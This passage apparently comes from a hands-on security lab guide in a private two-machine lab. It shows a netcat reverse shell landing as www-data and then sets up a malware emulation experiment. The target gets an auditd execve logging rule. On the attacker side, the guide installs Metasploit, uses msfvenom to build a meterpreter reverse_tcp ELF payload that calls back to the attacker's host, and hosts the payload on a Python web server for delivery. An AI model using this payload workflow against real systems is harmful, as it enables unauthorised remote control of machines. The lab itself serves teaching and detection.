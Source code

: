
#### **Attacker: Verify Reverse Shell**

*After executing Stage 2, your listener terminal (Terminal 3) should show a new connection and provide a shell prompt.*

```bash
# Example output from the netcat listener:
# listening on [any] 4444 ...
# connect to [192.168.10.11] from (UNKNOWN) [192.168.10.12] 45912
#
# You can now run commands on the server as the 'www-data' user
$ whoami
www-data
```

### **Experiment 7: Malware Emulation and Detection**

---

#### **Server: Setup (The Target)**

```bash
# Update package lists
sudo apt-get update

# Install logging and auditing tools
sudo apt-get install -y logwatch auditd

# Create an audit rule to log all command executions system-wide
sudo auditctl -a always,exit -F arch=b64 -S execve -k command_execution
```

---

#### **Attacker: Setup (The C2 Server)**

```bash
# Download and install the Metasploit Framework via snap
sudo snap install metasploit-framework
sudo snap connect metasploit-framework:network-control :network-control

# Add snap binaries to your PATH for the current session
export PATH=$PATH:/snap/bin
```

---

#### **Attacker: Payload Generation and Delivery**

```bash
# Use msfvenom to generate a staged Linux reverse shell payload
sudo msfvenom -p linux/aarch64/meterpreter/reverse_tcp LHOST=192.168.10.11 \
LPORT=4444 -f elf -o reverse_shell.elf

# Start a simple web server to host the payload for delivery
# Run this in the same directory as reverse_shell.elf and leave it running
python3 -m http.server 8000
```

---